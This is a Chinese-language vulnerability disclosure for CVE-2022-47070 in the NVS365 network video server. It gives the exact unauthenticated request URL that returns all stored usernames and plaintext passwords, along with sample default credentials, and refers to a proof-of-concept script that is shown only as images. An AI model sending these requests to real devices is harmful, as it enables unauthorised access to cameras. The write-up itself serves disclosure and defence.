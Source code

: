 # 网络视频服务器：NVS365（密码信息未授权访问漏洞）(CVE-2022-47070)
# [CVSS:7.5分:点击跳转](https://nvd.nist.gov/vuln/detail/CVE-2022-47070 )

# [该漏洞关联下一份漏洞 《NVS365网络视频服务器任意命令执行》](https://github.com/Sylon001/NVS-365-Camera/tree/master/NVS-365-V01%20camera%20command%20execution)

NVS365 是一种数字媒体服务器，允许通过局域网 (LAN)
或互联网分发视频和音频。

官网：

<http://www.nvs365.com/>

![](./images/media/image1.png){width="5.764583333333333in"
height="1.9277777777777778in"}

官网产品介绍：

http://www.nvs365.com/docs/spec.html

![](./images/media/image2.png){width="5.7625in"
height="1.7430555555555556in"}

第三方产品介绍：

<http://www.sightwatch.com/>

![](./images/media/image3.png){width="5.758333333333334in"
height="4.003472222222222in"}

漏洞版本：

NVS-365-V01

![](./images/media/image4.png){width="5.764583333333333in"
height="3.66875in"}

漏洞分析：

输入一个错误的密码后，会向服务端发送两次url

(1)http://ip:prot/?jcpcmd=authen%20-act%20list&\_=1669884669901

(2)http://ip:prot/?jcpcmd=userpasswd%20-act%20list&\_=1669884673854

而 第二个包 服务端会返回正确的密码信息。

szJcpResult=\"\[Success\]user0=admin;passwd0=9999;group0=0;user1=operator;passwd1=operator;group1=1;user2=user;passwd2=user;group2=2;;\";

![](./images/media/image5.png){width="5.7652777777777775in"
height="2.5840277777777776in"}

直接访问url 如图：

![](./images/media/image6.png){width="5.758333333333334in"
height="1.145138888888889in"}



POC脚本未授权访问如下，详情可看附件py文件

![](./images/media/image8.png){width="5.764583333333333in"
height="3.5395833333333333in"}

![](./images/media/image9.png){width="5.7555555555555555in"
height="3.6638888888888888in"}

运行如下

![](./images/media/image10.png){width="5.766666666666667in"
height="5.934027777777778in"}
